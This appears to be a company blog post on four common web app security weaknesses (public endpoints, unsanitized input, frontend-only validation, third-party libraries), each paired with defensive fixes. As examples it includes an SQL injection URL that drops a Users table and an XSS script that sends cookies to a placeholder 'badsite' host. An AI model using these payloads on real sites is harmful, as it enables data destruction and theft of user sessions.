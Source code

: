 # **4 Common Vulnerabilities of Web Apps**

![photo-1504639725590-34d0984388bd](https://user-images.githubusercontent.com/5280619/72622893-e3b23600-3922-11ea-88ed-0d107445c47c.jpeg)

Here at Rootstrap, security is one of the most important topics we discuss with our clients. We ensure that hackers and cyber-thieves can’t access any sensitive information from our client’s web apps.

In this blog post, you’ll learn four common security vulnerabilities in web applications. You’ll also discover how hackers can exploit these vulnerabilities and how we prevent that from happening.


## 
**1) Public Endpoints**

First, what’s an endpoint?

An endpoint is a connection point of an application.

For the sake of simplicity, below are a few examples:



*   /this-is-an-endpoint
*   /another/endpoint
*   /some/other/endpoint

Here’s how they would look like when we put them on a website:



*   https://example.com/this-is-an-endpoint
*   https://example.com/another/endpoint
*   https://example.com/some/other/endpoint

An endpoint can either be public or private.

When an endpoint is public, it’s accessible to everyone. Sometimes, this is a requirement because there’s a feature anyone should be able to use.


### 
**Possible Exploit: Enumeration**



*   Enumeration is the process of extracting information by iterating over an endpoint.

### 
**Example:**

*   If a web app has an endpoint that tells a malicious actor that an email address has been used to sign up, then it can be exploited. A hacker could iterate over a list of email addresses to find the ones that were used in an app or site. The attacker could then impersonate the business and ask those users for their passwords.

### 
**Solutions:**

*   At Rootstrap, we make sure we’re aware of all public endpoints that exist in a web app and add authentication where needed.
*   When the first solution isn’t possible, we add a limit to requests that could come from a single IP address. This helps us prevent the use of automatic scripts.

## 
**2) Unsanitized Input Data**


When a web user inputs data into a form, it must be sanitized before it’s processed.

Why should data be sanitized?

An unsanitized input data may contain code which could change the way a web app works. That’s why sanitization is important.

Sanitization is the process of cleaning, removing, and validating the data submitted by a user before processing it.


### 
**Possible Exploits: Open Redirects and SQL Injections**



*   Open Redirects: This is a security weakness that makes a web app fails to authenticate the URLs. Depending on how the web app is built, an open redirect could happen after an action, e.g., login, sign up. After the action, users are redirected to a phony page made by the attacker. Sometimes, it could occur immediately the user loads the app.
*   SQL Injection: This is a common security flaw that allows the attacker to use malicious SQL code to access and delete information in the database.

### 
**Examples:**

*   A redirect to a malicious site after the user has taken some actions.
*   A web site that has search functionality and doesn’t sanitize data is vulnerable. An attacker could input an SQL statement like this to the URL to delete the Users table in the database: `http://mysite.com/?s=something_to_search; DROP TABLE Users`

### 
**Solutions:**

*   Sanitize the URL parameters by ensuring that JavaScript code, illegal characters, etc., are removed before processing the data.
*   Only allow redirection from URL parameters to your domain.
*   Sanitize user inputs used in your SQL queries.

## 
**3) Frontend Validations**


Frontend validations help to ensure that users fill out the data in the correct format. But this isn’t always enough. 


### 
**Possible Exploits: Cross-site Scripting and Bypass Validations**



*   Cross-site scripting (XSS) allows malicious actors to insert client-side scripts into web pages viewed by users. 
*   Attackers can easily bypass frontend validations. Hackers can intercept the payload and change the data when only frontend validations are used.

### 
**Examples:**

*   Malicious actors can still upload executable files like a JavaScript code on a web app that only allows images if frontend validations are solely used. 
*   Attackers can use the comment section in a web app with an XSS vulnerability to steal cookies. They can insert the below JavaScript code. This code will send cookies to the malicious site each time the user loads the page: `<script>new Image().src="http://badsite/?s="+document.cookie;</script>`

### 
**Solutions:**

*   Use backend validations too. Don’t rely on frontend validations alone. 
*   Sanitize user inputs in the backend to ensure that only valid values are allowed. 

## 
**4) Third-Party Libraries**


A third-party library is a reusable component developed externally. Using external libraries has many benefits. One of them is that it improves the development speed. But it also has some drawbacks.


### 
**Possible Exploits: Third-Party Library Vulnerabilities**

Most modern web apps use a lot of third-party libraries. Just like your app, these libraries have their vulnerabilities malicious actors may exploit. 


### 
**Examples:**



*   If a third-party library wasn’t updated for a long time, it could have some vulnerabilities that are known to attackers. 
*   A popular open source library could get hacked and updated with malicious code. Using the library would leave your web app open to attacks.

### 
**Solutions**

*   Does your web app need a third-party library? Make sure its pros outweigh its cons before using the library.
*   You should also be aware of issues with the third-party libraries you use in your app. For example, Github alerts you of potential vulnerabilities in JS libraries.

## 
**Conclusion**


When building a web app, keep in mind the vulnerabilities that you could face. Here at Rootstrap, we think of ways to prevent those vulnerabilities in the initial stages of design and development.

We know that the trust of the users is the most valuable asset an app or a business must have. That is why we like to discuss security with our clients.


<!-- Docs to Markdown version 1.0β17 -->
